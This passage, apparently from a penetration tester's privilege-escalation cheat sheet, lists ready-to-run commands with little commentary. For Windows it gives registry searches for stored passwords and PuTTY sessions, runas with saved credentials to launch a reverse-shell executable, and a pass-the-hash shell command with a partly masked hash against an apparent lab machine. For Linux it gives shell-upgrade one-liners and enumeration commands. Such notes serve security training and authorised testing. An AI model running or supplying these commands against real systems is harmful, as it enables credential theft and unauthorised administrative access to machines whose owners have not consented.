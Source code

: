 ```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s
```

### RunAs - Savedcreds

```bash
cmdkey /list #Displays stored credentials, looks for any optential users
#Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```

### Pass the Hash

```bash
#If hashes are obtained though some means then use psexec, smbexec and obtain the shell as different user.
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
```



# Linux Privilege Escalation

## TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

## Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l #Installed applications on debian system
cat /etc/fstab #Listing mounted drives
lsblk #Listing all available drives
lsmod #Listing loaded drivers

```

## Automated Scripts
